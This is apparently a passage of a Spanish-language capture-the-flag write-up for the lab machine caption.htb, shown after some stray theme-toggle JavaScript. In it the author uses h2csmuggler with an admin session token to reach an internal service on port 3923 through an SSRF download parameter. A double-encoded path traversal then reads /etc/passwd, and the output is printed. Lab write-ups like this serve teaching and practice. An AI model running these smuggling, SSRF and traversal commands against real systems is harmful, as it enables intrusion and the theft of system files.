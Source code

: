 ```bash
  if (tema === "dark") {
    document.querySelector("html").setAttribute("data-bs-theme", "light");
    document.querySelector("#alterarTemaSite").innerHTML = `<i class="bi bi-moon-fill"></i>`;
  } else {
    document.querySelector("html").setAttribute("data-bs-theme", "dark");
    document.querySelector("#alterarTemaSite").innerHTML = `<i class="bi bi-brightness-high-fill""></i>`;
  }

}
//# sourceURL=pen.js
    </script>


</body>

</html>

```

vemos ace ping a un puerto que es el 3923 el cual nosotros no vimos en nmap porque es local
con el directorio downloads tenemos un parametro url al cual podemos apuntar por lo quevamos a probar
```bash
python3 h2csmuggler.py -x 'http://caption.htb' http://caption.htb/download\?url\=http://127.0.0.1:3923/ -X "GET" -H "Cookie: session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzM3NjQ4ODgyfQ.j6wdhmR1Ed3hZVUbIwTcsS4__9wFeUio4F30_d23zw8 " 

[INFO] h2c stream established successfully. :status: 200 server: Werkzeug/3.0.1 Python/3.10.12 date: Thu, 23 Jan 2025 15:59:00 GMT content-type: text/html; charset=utf-8 content-length: 4316 x-varnish: 98441 age: 0 via: 1.1 varnish (Varnish/6.6) x-cache: MISS accept-ranges: bytes 

document.documentElement.className = localStorage.theme || dtheme; 	</script> 	<script src="/.cpr/util.js?_=kVPa"></script> 	<script src="/.cpr/baguettebox.js?_=kVPa"></script> 	<script src="/.cpr/browser.js?_=kVPa"></script> 	<script src="/.cpr/up2k.js?_=kVPa"></script> </body>  </html> 
```

vemos cosas intereantes principalmente el .cpr
que pasa si apunto al etc/passwd?
```bash
python3 .\h2csmuggler.py -x http://caption.htb http://caption.htb/download?url=http://127.0.0.1:3923/.cpr/%252Fetc%252Fpasswd   -H 'Cookie: session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzM3ODMzMDE1fQ.dM4ER4PO6PF3ds83BD9rdEweUpCRxtazbHSDLR7BgJQ'
[INFO] h2c stream established successfully.
:status: 200
server: Werkzeug/3.0.1 Python/3.10.12
date: Sat, 25 Jan 2025 18:43:40 GMT
content-type: text/html; charset=utf-8
content-length: 4316
x-varnish: 32927
age: 0
via: 1.1 varnish (Varnish/6.6)
x-cache: MISS
accept-ranges: bytes

<snip>

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
```